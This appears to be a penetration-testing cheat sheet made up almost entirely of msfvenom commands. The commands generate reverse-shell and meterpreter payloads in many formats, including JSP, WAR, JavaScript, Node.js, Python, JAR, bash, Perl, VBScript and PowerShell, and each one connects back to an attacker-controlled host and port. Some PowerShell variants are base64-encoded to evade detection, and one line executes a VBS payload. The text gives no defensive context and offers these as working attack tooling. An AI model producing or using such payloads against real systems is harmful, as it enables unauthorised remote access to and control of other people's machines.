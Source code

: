 **jsp**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.jsp
```

**war**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f war > shell.war
```

**javascript**
```bash
msfvenom -p windows/shell_reverse_tcp lhost=your-ip lport=your-port -f js_le -e generic/none

msfvenom -p linux/x86/shell_reverse_tcp lhost=your-ip lport=your-port CMD=/bin/bash -f js_le -e generic/none
```

**Nodejs**
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.js
```

### scripting

**python**
```bash
msfvenom -p cmd/unix/reverse_python lhost=your-ip lport=your-port -f raw > shell.py
```

**jar**
```bash
msfvenom -p java/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f raw -o shell.jar
```

**bash**
```bash
msfvenom -p cmd/unix/reverse_bash lhost=your-ip lport=your-port -f raw > shell.sh
```

**perl**
```bash
msfvenom -p cmd/unix/reverse_perl lhost=your-ip lport=your-port -f raw > shell.pl
```

**vbscript**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port exitfunc=thread -f vbs -a x86 --platform windows > shell.vbs
C:\Documents and Settings\Administrator>cscript shell.vbs
```

**Powershell**
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

msfvenom -a x86 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1

msfvenom -a x64 --platform windows -p windows/x64/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershellbase64 -i 3 -f raw -o x64_shell.ps1
```
